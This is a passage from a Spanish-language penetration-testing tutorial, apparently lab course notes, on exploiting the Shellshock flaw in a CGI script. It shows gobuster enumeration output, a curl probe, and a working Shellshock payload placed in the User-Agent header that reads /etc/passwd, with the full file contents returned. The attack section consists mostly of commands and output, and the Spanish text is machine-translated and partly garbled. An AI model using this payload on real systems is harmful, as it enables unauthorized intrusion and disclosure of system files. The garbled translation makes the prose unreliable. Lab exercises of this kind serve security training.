 ```
2023/03/23 09:26:04 Starting gobuster in directory enumeration mode
===============================================================
/access.cgi           (Status: 200) [Size: 0]

===============================================================
2023/03/23 09:26:29 Finished

```

A continuación, podemos curlar el script y notar que no se nos sale nada, por lo que quizás sea un script desaparecido, pero aún vale la pena explorar más.

Attacando aplicaciones de interfaz de puerta de enlace común (CGI) - Shellshock

```
xnoxos@htb[/htb]$ curl -i http://10.129.204.231/cgi-bin/access.cgiHTTP/1.1 200 OK
Date: Thu, 23 Mar 2023 13:28:55 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 0
Content-Type: text/html

```

### **Confirmando la vulnerabilidad**

Para verificar la vulnerabilidad, podemos usar un simple`cURL`Comando o use el repetidor o intruso de la suite BURP para borrar el campo de agente de usuario. Aquí podemos ver que el contenido del`/etc/passwd`El archivo se nos devuelve, confirmando así la vulnerabilidad a través del campo de agente de usuario.

Attacando aplicaciones de interfaz de puerta de enlace común (CGI) - Shellshock

```
xnoxos@htb[/htb]$ curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.129.204.231/cgi-bin/access.cgiroot:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
```